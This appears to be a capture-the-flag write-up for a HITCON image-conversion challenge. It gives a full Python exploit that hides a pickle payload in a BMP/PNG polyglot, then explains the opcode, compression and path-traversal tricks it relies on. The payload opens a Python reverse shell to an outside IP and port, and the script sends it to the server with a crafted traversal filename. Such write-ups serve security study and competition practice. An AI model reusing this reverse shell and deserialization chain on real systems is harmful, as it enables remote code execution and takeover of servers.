 ```python
import requests
import io
from PIL import Image
from multiprocessing.reduction import ForkingPickler

# create large black image
img = Image.new('RGB', (20000, 3450)) # gives 0x56 at 5th byte
img_bytes = io.BytesIO()
img.save(img_bytes, format='BMP')
img_data = img_bytes.getvalue()

# python reverse shell in pickle RCE
command = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("12.34.56.78",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))
pickle = ForkingPickler.dumps((0, 0, (True, [PickleRCE()])), protocol=1)

# insert newline and payload
polyglot = img_data[:100] + b'\n0' + pickle + img_data[100+len(pickle)+2:]

# convert to png
payload = io.BytesIO()
Image.open(io.BytesIO(polyglot)).save(payload, format="PNG")

# send to challenge server
url = "http://imgc0nv.chal.hitconctf.com:12345/convert"
repl = "/proc/self/fd/13" 
# abusing the /usr/share/doc/libmpc3 directory
remote_filename = f"/usr/share/doc/li{repl}c3/../../../../..{repl}"
fmt = "bmp"
files = [("files", (remote_filename, payload)) for _ in range(6)]
requests.post(url, data={"format": fmt}, files=files)
```

Here's what happens when the exploit runs:

1. **Polyglot Construction**: We create a 20000x3450 RGB image, specifically sized so the BMP file size lands us with byte 5 = 0x56 (the `V` pickle opcode). This black image starts as a ~207MB BMP.

2. **Pickle Injection**: The RCE payload gets injected 100 bytes into the BMP data, right after a newline character and a `0` pop opcode. The `V` opcode tells pickle to read until the next newline, effectively skipping the rest of the BMP header. We use pickle protocol 1 to avoid the overhead of modern framing.

3. **PNG Compression**: The polyglot BMP is converted to PNG, shrinking from 207MB to ~201KB through lossless compression. This allows us to stay under the 5MB request limit while still producing huge BMPs server-side.

4. **Path Manipulation**: The filename `/usr/share/doc/lib/proc/self/fd/13c3/../../../../../proc/self/fd/13` exploits the extension replacement bug. When the server replaces the first `/proc/self/fd/13` with `bmp`, it creates `/usr/share/doc/libbmpc3/...` which traverses back to the actual target `/proc/self/fd/13`. 

